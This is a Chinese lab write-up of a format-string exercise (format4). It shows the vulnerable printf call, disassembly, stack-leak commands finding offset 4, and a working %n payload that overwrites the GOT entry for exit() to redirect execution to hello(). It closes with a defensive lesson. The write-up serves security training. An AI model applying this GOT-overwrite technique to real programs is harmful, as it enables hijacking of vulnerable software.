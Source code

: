 # <center>格式化字符串实验3</center>

## 实验概述

### 【目的】
运行format4，得到输出`code execution redirected! you win`
### 【环境】
Linux
### 【工具】
python
### 【原理】
格式化字符串，是一些程序设计语言在格式化输出API函数中用于指定输出参数的格式与相对位置的字符串参数，例如C、C++等程序设计语言的printf类函数，其中的转换说明（conversion specification）用于把随后对应的0个或多个函数参数转换为相应的格式输出；格式化字符串中转换说明以外的其它字符原样输出。[1]
## 实验步骤

### 【步骤】
#### format4
```
void __noreturn vuln()
{
  char s; // [sp+0h] [bp-208h]@1

  fgets(&s, 512, stdin);
  printf(&s);
  exit(1);
}
```
```
void __noreturn hello()
{
  puts("code execution redirected! you win");
  _exit(1);
}
.text:080484EB hello           proc near
.text:080484EB                 push    ebp
.text:080484EC                 mov     ebp, esp
.text:080484EE                 sub     esp, 8
.text:080484F1                 sub     esp, 0Ch
.text:080484F4                 push    offset s        ; "code execution redirected! you win"
.text:080484F9                 call    _puts
.text:080484FE                 add     esp, 10h
.text:08048501                 sub     esp, 0Ch
.text:08048504                 push    1               ; status
.text:08048506                 call    __exit
.text:08048506 hello           endp
```
需要控制程序执行流到`hello()`函数，`printf()`后紧跟着`exit()`,这里要更改执行流到`hello()`，需要覆盖`exit()`got表地址。
```
.got.plt:0804A01C off_804A010     dd offset _exit         ; DATA XREF: __exitr
```
通过IDA pro可以看到，我们需要把0804a01c的值改为080484eb
```
$ python -c 'print "AAAA"+".".join(["%d:%%x" % i for i in range(1,16)])' | ./format4
AAAA1:200.2:f7ed25a0.3:f7f0cf8a.4:41414141.5:78253a31.6:253a322e.7:3a332e78.8:342e7825.9:2e78253a.10:78253a35.11:253a362e.12:3a372e78.13:382e7825.14:2e78253a.15:78253a39

$ python -c 'print "ABCD" + "X" * 4 + "%4$x."' | ./format4
ABCDXXXX44434241.

```
查到偏移为4。
```
$ python -c 'print "\x1c\xa0\x04\x08\x1d\xa0\x04\x08\x1e\xa0\x04\x08\x1f\xa0\x04\x08"  + "%219d%4$n%153d%5$n%128d%6$n%260d%7$n"' | ./format4
����                                                                                                                                                                                                                        512                                                                                                                                               -135318112                                                                                                                      -135078006                                                                                                                                                                                                                                                           134520860
code execution redirected! you win

```

### 【总结】

本次实验主要进一步熟悉了通过%x泄露内存数据，通过%n来进行任意地址写，通过%`x`d来控制输出x个字符，通过覆写got表地址来达到控制程序执行流的目的。

可以发现，格式化字符串漏洞发生的原因是程序将格式化字符串的权限交给用户，即用户可以操作格式化字符串的内容。

要预防这类情况，在使用格式化字符串函数时，format参数的权限一定不能交给用户。
